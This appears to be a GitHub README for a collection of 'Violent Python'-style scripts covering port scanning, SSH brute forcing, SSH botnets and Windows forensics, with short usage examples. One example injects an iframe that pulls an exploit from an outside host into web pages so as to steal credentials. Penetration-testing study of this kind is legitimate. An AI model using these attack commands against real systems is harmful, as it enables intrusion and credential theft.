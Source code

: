 # Digital-Forensic-Analytics  
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System

I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on
The actual i have is Kali Linux 64 Bit 2018.2
Window7 for few scripts


# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

## M) discoverNetworks.py    
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
  
## N) dumpRecycleBin.py  
  
Allows to discover deleted items in windows operating system ,also provide information about the user who delete files
